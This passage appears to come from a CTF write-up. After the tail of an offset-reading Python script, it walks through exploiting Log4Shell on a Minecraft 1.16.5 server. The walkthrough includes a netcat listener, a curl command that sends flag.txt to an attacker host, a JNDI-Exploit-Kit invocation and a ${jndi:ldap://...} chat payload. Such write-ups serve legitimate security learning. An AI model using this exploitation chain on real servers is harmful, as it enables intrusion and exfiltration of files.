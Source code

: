         data = unhexlify(p.read(8))
        p.close()
        for c in data[::-1]:
            c = chr(c)
            if c.isprintable():
                result += c
            else:
                result += "."
    except:
        print("Error reading offset {}, filling with ?".format(offset))
        result += "????"
    if offset % 10 == 0:
        print("reading offset {}/120".format(offset))
print(result)
```

</br>

## Minecraft - Medium

*My buddy set up a Minecraft server. I wonder what else is on their machine?*
</br>

The task is a Minecraft server running a vanilla Minecraft 1.16.5 server on OpenJDK 8u111. It is vulnerable for the [Log4Shell (https://en.wikipedia.org/wiki/Log4Shell) vulnerability. It can be exploited using a publicly available exploit toolkit such as [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit). The flag is hidden in a file named "flag.txt".

To start with, we need a publicly available server which we use to exfiltrate our data from the target network. This can be achieved by running `netcat` on a server of your choice:

```
nc -l 8001
```

We craft a command to upload the flag from the Minecraft server to the server that is running `netcat`. You can use any command here including a reverse shell, but for simplicity we just upload the flag file using `curl`:

```
curl --data-binary @flag.txt http://myserver:8001
```

To generate and serve the payload, we can use `JNDI-Exploit-Kit` and pass our crafted command as an argument:

```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "curl --data-binary @flag.txt http://myserver:8001/"
```

The tool will present a variety of different payloads. We take the `JDK 1.8 ldap://` payload and wrap it in a Log4j substitution:

```
${jndi:ldap://myserver:1389/w9nmaj}
```

Finally we just connect to the Minecraft server and drop the payload string in the chat. 

![](../src/blog/images/neuland-ctf-04-2022/minecraft.webp)
</br>

The server will log all chat messages to the server log and as a result trigger the Log4Shell vulnerability.
```